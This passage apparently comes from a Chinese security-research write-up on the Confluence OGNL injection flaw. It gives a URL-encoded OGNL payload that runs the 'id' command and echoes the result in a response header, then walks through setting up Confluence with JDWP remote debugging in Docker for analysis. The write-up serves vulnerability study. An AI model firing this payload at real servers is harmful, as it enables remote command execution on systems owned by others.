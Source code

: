 payload:

```php
http://localhost:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

payload解码后,可以发现其实就是OGNL注入漏洞。

![image-20220604234316100.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-e8618308cd87b0844049eeffbcff662329749312.png)

命令回显:  
![image-20220604234138843.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-ab5c06539846ef368b9757ca62b2e4bb1d3c2ef7.png)

0x02 调试环境
=========

访问:<https://www.atlassian.com/software/confluence/download-archives>

![image-20220604164608948.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-d8cc1234cff7bba092d05e8bf1c02bd4aa81c174.png)

对应上P牛的版本，点击Download,IDEA新建一个项目，用`confluence`作为根目录。

![image-20220605002219401.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-f2206bc0ebb717c62f7cd44c04fb5970d84bf497.png)  
将`web-INF`下`atlassian-bundled-plugins`、`atlassian-bundled-plugins-setup`和`lib`都添加到项目的依赖。

![image-20220605002643765.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-016c8212cb86edced6e285bb83d91c02771d4dab.png)

配置远程调试:

 进入容器`docker exec -it b8d9d3517126 bash`,查看java版本

```php
root@74ee415c25e2:/var/atlassian/application-data/confluence# /opt/java/openjdk/bin/java --version
openjdk 11.0.15 2022-04-19
OpenJDK Runtime Environment Temurin-11.0.15+10 (build 11.0.15+10)
OpenJDK 64-Bit Server VM Temurin-11.0.15+10 (build 11.0.15+10, mixed mode)
```

添加tomcat debug配置:

 根据`env`或者入口文件,找到安装路径:`cd /opt/atlassian/confluence/bin`

```php
sed -i '/export CATALINA_OPTS/iCATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5050 ${CATALINA_OPTS}"' setenv.sh
```

设置完毕后,重启容器`docker restart 74ee415c25e2`,回到IDEA按照如下,配置远程调试。

![image-20220605103505751.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-145276754ce9b7f544fac9e032000baff4e6faee.png)

然后开始调试即可。

![image-20220605104258867.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-d86ec75459c9199df3c61078e3d596a5e5212136.png)
